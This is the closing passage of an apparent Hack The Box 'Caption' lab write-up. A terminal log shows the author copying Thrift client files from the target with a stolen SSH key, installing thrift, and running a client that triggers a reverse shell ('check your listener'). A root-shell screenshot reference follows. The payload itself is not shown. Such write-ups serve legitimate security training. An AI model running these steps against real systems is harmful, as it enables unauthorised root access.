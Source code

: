 
```bash
(.venv) [Jan 23, 2025 - 22:27:41 ] htb caption ➜  scp -i id_ecdsa -r margo@caption.htb:~/gen-p
y .
client.py                                                   100% 1064    19.4KB/s   00:00
ttypes.py                                                   100%  440     7.9KB/s   00:00
LogService-remote                                           100% 2769    50.2KB/s   00:00
constants.py                                                100%  366     6.8KB/s   00:00
__init__.py                                                 100%   48     0.9KB/s   00:00
LogService.py                                               100% 8031   142.3KB/s   00:00
(.venv) [Jan 23, 2025 - 22:28:23 ] htb caption ➜  pip install thrift
Collecting thrift
  Downloading thrift-0.21.0.tar.gz (62 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 62.5/62.5 kB 1.7 MB/s eta 0:00:00
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting six>=1.7.2 (from thrift)
  Downloading six-1.17.0-py2.py3-none-any.whl.metadata (1.7 kB)
Downloading six-1.17.0-py2.py3-none-any.whl (11 kB)
Building wheels for collected packages: thrift
  Building wheel for thrift (pyproject.toml) ... done
  Created wheel for thrift: filename=thrift-0.21.0-cp311-cp311-linux_x86_64.whl size=504992 sha256=af8469acad68896daeb443f4258778b464fdcd6380079422d417752780c4f6de
  Stored in directory: /root/.cache/pip/wheels/ee/4e/19/b0935ea8d432182833c86e4a36f8026d8e212f8f7c5939cbca
Successfully built thrift
Installing collected packages: six, thrift
Successfully installed six-1.17.0 thrift-0.21.0

[notice] A new release of pip is available: 24.0 -> 24.3.1
[notice] To update, run: pip install --upgrade pip
(.venv) [Jan 23, 2025 - 22:29:34 ] htb caption ➜  python3 gen-py/client.py
<check your listener>

```
![alt text](/assets/blog/HTB-Caption/rootshell.png)


## Conclusion
